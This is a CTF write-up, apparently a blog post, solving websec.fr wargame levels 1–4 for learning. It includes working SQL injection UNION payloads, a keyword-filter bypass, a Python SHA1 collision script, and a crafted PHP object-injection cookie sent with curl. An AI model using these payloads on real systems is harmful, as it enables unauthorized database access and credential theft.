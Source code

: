 ```yaml
---
layout: blog
title: "[writeup] websec.ft wargames CTF Writeup"
date: 2020-05-27T18:23:59.297Z
tags:
  - ctf
  - writeup
---
```


CTF writeup of http://websec.fr/ war-games.

<!--more-->

# websec.fr writeups

## Level 01

```php
class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);

        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query($query);
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}
```

The level one is straightforward, the source code is given so we just have to use `union select`

```sql
SELECT id,username FROM users WHERE id=1 OR 1=2 union select username,password from users where id = 1 LIMIT 1
```

so the payload is: `1 AND 1=2 union select username,password from users where id = 1`

Explanation:

1. we have to bypass first select by making it false, using `AND {false_statement}` so `1=2` == `false`

2. after making the first term `false` we now can use union select with password as my guest column

## Level 02

```php
class LevelTwo {
    public function doQuery($injection) {
        $pdo = new SQLite3('leveltwo.db', SQLITE3_OPEN_READONLY);

        $searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
        $injection = preg_replace ('/' . $searchWords . '/i', '', $injection);

        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query ($query);
        $users = $getUsers->fetchArray (SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}
```

the query is just the same as the first level, but with limitation, the query is filtered using `preg_replace`

I’m using php interactive shell to try preg*match, it turns out it does not filter it \_recursively*

```shell
❯ ./psysh
Psy Shell v0.10.4 (PHP 7.3.11 — cli) by Justin Hileman
>>> $searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
=> "union|order|select|from|group|by"
>>> $injection = preg_replace ('/' . $searchWords . '/i', '', "from");
=> ""
>>> $injection = preg_replace ('/' . $searchWords . '/i', '', "frfromom");
=> "from"
```

so we can bypass the query just by modifying forbidden word

final query: `1 and 1=2 UNunionION SELselectECT username,password FRfromOM users where id =1 --`

## Level 03

When doing this challenge, I notice after copying the source code to my text editor, is the `sha1` function is written with argument `fa1se` not `false`. It makes the `sha1`'s parameter raw_output equals to `true`, so the output is raw binary.

So what? we notic that we can truncate the byte with null terminator `\0`. Fortunately, the hash of the password in the challenge contains null byte too:(`7c00249d409a91ab84e3f421c193520d9fb3674b`)

So we can make a hash collision by finding a hash that starts with: `0x7c 0x00`

I wrote a script,

```python
import hashlib
import base64
import codecs
import requests
import re

the_answer = ""

i = 0
while True:
    v = "%x" % i
    v = "0" + v if len(v) % 2 == 1 else v
    v = base64.b64encode(codecs.decode(v, "hex"))
    h = hashlib.sha1(v).digest()[:2]
    if h == b"\x7c\x00":
        the_answer = str(v).replace("b", "").replace("\'", "")
        break
    i += 1


r = requests.post('http://websec.fr/level03/index.php', data={'c': the_answer })
flag = re.search(r'(.*?WEBSEC.*?)\n', r.text)
print(flag.group(0))
```

## Level 04

given this source code, lets analyze the codes:

```php
// source1.php
<?php
include 'connect.php';

$sql = new SQL();
$sql->connect();
$sql->query = 'SELECT username FROM users WHERE id=';


if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
} else {
    $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('leet_hax0r', $cookie, time () + (86400 * 30));
}

if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } catch(Exception $e) {
        echo ' Invalid query';
    }
}
```

1. There is unserialize method without input validation, we can assume we can use PHP object injection attack
2. We can abuse the unserialize method by crafting our payload on cookies

```php
//source2.php

<?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }

    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }

        $ret = $this->execute ();
        if (false !== $ret) {
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
```

1. We can see from the source2, the codes implemented magic function `__descruct()`, this magic function will be called automatically without invocation.
2. furthermore, from `__destruct()` method, it will query to database and show `$row[username]` field, so actually we have to craft `UNION` query but it's easier to use `AS` keyword to change from username field to password field

We can craft the payload using this php script:

```php
// payload.php

<?php

class SQL
{
    public $query = 'SELECT password AS username FROM users WHERE id=1';
    public $conn;
}

$serialized = serialize(new SQL());
echo base64_encode($serialized);
```

output generated: `TzozOiJTUUwiOjI6e3M6NToicXVlcnkiO3M6NDk6IlNFTEVDVCBwYXNzd29yZCBBUyB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIGlkPTEiO3M6NDoiY29ubiI7Tjt9`

try this using curl, or using browser and set your cookie

```shell
❯ curl -b 'leet_hax0r=TzozOiJTUUwiOjI6e3M6NToicXVlcnkiO3M6NDk6IlNFTEVDVCBwYXNzd29yZCBBUyB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIGlkPTEiO3M6NDoiY29ubiI7Tjt9' http://websec.fr/level04/index.php
```

further reads:

- https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection

- https://www.notsosecure.com/remote-code-execution-via-php-unserialize/

